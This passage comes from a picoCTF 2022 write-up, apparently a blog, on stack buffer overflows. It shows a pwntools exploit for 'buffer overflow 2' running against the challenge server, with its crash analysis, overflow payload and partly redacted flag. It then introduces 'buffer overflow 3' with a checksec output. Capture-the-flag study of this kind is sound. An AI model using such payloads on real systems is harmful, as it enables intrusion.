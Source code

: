 Let's run it on the remote server:

<figure class="highlight plaintext"><table><tr><td class="code"><pre><span class="meta prompt_">$ </span>python3 buffer-overflow-2-automated.py REMOTE
[<span style="color:#277FFF"><b>*</b></span>] Loaded 10 cached gadgets for &apos;./vuln&apos;
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;: pid 4993
[<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; stopped with exit code
-11 (SIGSEGV) (pid 4993)
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/core&apos;
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffd07fc0
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; (0x8048000)
    Fault:     0x62616164
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaa-
avaaawaaaxaaayaaazaabbaabcaab\x96\x\xf0\xfe\xca
picoCTF{argum3nt5_4_d4yZ_<span style="color:#696969"><b>[REDACTED]</b></span>}<span style="color:#EC0101"><b>$</b></span> [<span style="color:#277FFF"><b>*</b></span>] Got EOF while reading in interactive
</pre></td></tr></table></figure>

We've successfully called a function with arguments through buffer overflow!

---

## Buffer overflow 3

<div class="box no-highlight">
  Do you think you can bypass the protection and get the flag?<br>
  It looks like Dr. Oswal added a stack canary to this <a href="/asset/pico22/buffer-overflow/vuln-3">program</a> to protect against buffer overflows. You can view source
  <a href="/asset/pico22/buffer-overflow/vuln-3.c">here</a>. And connect with it using:<br>
  <code>nc saturn.picoctf.net [PORT]</code>
  <br><br>
  <b>Authors</b>: Sanjay C., Palash Oswal
  <details><summary><b>Hint:</b></summary></details>
</div>

<div class="text-warning">
  <i class="fa-solid fa-triangle-exclamation"></i> Warning: This is an <b>instance-based</b> challenge. Port info will
  be redacted alongside the last eight characters of the flag, as they are dynamic.
</div>

<figure class="highlight console">
  <figcaption><span>checksec.sh</span><a target="_blank" rel="noopener"
      href="https://github.com/slimm609/checksec.sh"><span style="color:#82C4E4">[github link]</span></a></figcaption>
<table><tr><td class="code"><pre><span class="meta prompt_">$ </span>checksec vuln
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos;
    Arch:     i386-32-little
    RELRO:    <span style="color:#FEA44C">Partial RELRO</span>
    Stack:    <span style="color:#D41919">No canary found</span>
    NX:       <span style="color:#5EBDAB">NX enabled</span>
    PIE:      <span style="color:#D41919">No PIE (0x8048000)</span>
</pre></td></tr></table></figure>
